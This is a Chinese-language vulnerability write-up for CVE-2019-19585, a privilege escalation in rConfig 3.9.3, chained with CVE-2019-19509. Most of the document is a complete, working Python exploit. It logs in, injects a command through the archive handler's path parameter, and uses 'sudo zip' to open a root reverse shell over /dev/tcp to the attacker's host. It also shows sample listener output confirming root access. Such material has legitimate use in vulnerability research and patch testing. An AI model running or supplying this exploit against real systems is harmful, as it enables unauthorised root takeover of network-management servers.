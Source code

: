 （CVE-2019-19585）rConfig v3.9.3 本地权限提升漏洞
=================================================

一、漏洞简介
------------

rConfig是一款开源的网络配置管理实用程序。 rConfig
3.9.3版本中存在安全漏洞。攻击者可利用该漏洞绕过本地安全限制。

二、漏洞影响
------------

rConfig v3.9.3

三、复现过程
------------

这个漏洞需要CVE-2019-19509 + CVE-2019-19585相配合才能深入利用

### poc

> CVE-2019-19585.py

    # Exploit Title: rConfig <= 3.9.3 - Authenticated Remote Code Execution - root
    # Date: 2019-11-07
    # CVE-2019-19509 + CVE-2019-19585
    # Exploit Author: vikingfr
    # Ref : https://raw.githubusercontent.com/v1k1ngfr/exploits-rconfig/master/rconfig_root_RCE.py
    # Vendor Homepage: https://rconfig.com/ (see also : https://github.com/rconfig/rconfig)
    # Software Link : http://files.rconfig.com/downloads/scripts/centos7_install.sh
    # Version: tested v3.9.3
    # Tested on: Apache/2.4.6 (CentOS 7.7) OpenSSL/1.0.2k-fips PHP/7.2.24
    #
    # Notes : If you want to reproduce in your lab environment follow those links :
    # http://help.rconfig.com/gettingstarted/installation
    # then
    # http://help.rconfig.com/gettingstarted/postinstall
    #
    # $ python3 exploit.py https://192.168.43.34 admin root 192.168.43.245 4444
    # rconfig - CVE-2019-19509 + CVE-2019-19585 - Web authenticated RCE - root
    # [+] Logged in successfully, triggering the payload...
    # [+] Check your listener !
    # ...
    # $ nc -nvlp 4444
    # listening on [any] 4444 ...
    # connect to [192.168.43.245] from (UNKNOWN) [192.168.43.34] 34458
    # sh: no job control in this shell
    # sh-4.2# id
    # id
    # uid=0(root) gid=0(root) groups=0(root)
    # sh-4.2#

    #!/usr/bin/python3

    import requests
    import sys
    import urllib.parse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    print ("rconfig - CVE-2019-19509 + CVE-2019-19585 - Web authenticated RCE - root")

    if len(sys.argv) != 6:
        print ("[+] Usage : ./rconfig_exploit.py https://target username password yourIP yourPort")
        exit()

    target = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
    #payload = '''`bash -i>& /dev/tcp/{0}/{1} 0>&1`'''.format(ip, port)
    # root RCE payload, including CVE-2019-19585
    payload = ''' `touch /tmp/CVE-2019-19585.txt;sudo zip -q /tmp/LPE.zip /tmp/CVE-2019-19585.txt -T -TT '/bin/sh -i>& /dev/tcp/{0}/{1} 0>&1 #'` '''.format(ip, port)

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)

    if dashboard_request.status_code == 200:
        print ("[+] Logged in successfully, triggering the payload...")
        encoded_request = target+"/lib/ajaxHandlers/ajaxArchiveFiles.php?path={0}&ext=random".format(urllib.parse.quote(payload))
        print ("[+] Check your listener !")
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print ("[-] Wrong credentials !")
        exit()
